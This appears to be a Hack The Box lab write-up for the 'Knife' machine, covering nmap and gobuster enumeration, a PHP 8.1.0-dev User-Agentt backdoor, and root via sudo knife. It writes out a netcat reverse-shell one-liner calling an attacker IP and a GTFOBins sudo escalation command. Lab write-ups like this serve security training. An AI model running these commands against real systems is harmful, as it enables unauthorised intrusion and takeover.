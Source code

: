 ```yaml
---
title: "[HTB] Machine: Knife"
description: "[HTB] Machine: Knife"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Knife"
    identifier: htb-machine-Knife
    parent: htb-machines-linux
    weight: 10
hero: images/Knife.png
tags: ["HTB", "php-backdoor", "php-8.1.0-dev", "sudo", "knife", "gtfobins"]
---
```


# Knife
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.242
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 12:29 BST
Nmap scan report for 10.10.10.242 (10.10.10.242)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.41 seconds

```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.242/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/06 12:31:56 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5815]
```
- Web server 

[](./images/1.png)

## Foothold/User
- We server's backend
  - `X-Powered-By: PHP/8.1.0-dev`
  
[](./images/2.png)

- Google reveals `RCE` in `User-Agentt`

[](./images/3.png)
[](./images/4.png)

- Let's get reverse shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.2 7777 >/tmp/f`

[](./images/5.png)
[](./images/6.png)


## Root
- `james` has sudo rights

[](./images/7.png)

- It's a [knife](https://docs.chef.io/workstation/knife/) cmd tool from [Chef](https://docs.chef.io/platform_overview/)
```
james@knife:/$ /usr/bin/knife -h
Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
    -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
        --[no-]listen                Whether a local mode (-z) server binds to a port.
    -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
    -u, --user USER                  Chef Infra Server API client username.
        --print-after                Show the data after a destructive operation.
        --profile PROFILE            The credentials profile to select.
    -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
    -v, --version                    Show Chef Infra Client version.
    -y, --yes                        Say yes to all prompts for confirmation.
    -h, --help                       Show this help message.

Available subcommands: (for details, knife SUB-COMMAND --help)
```

- Check [GTFOBins](https://gtfobins.github.io/gtfobins/knife/)
  - `sudo knife exec -E 'exec "/bin/sh"'`


![](./images/8.png)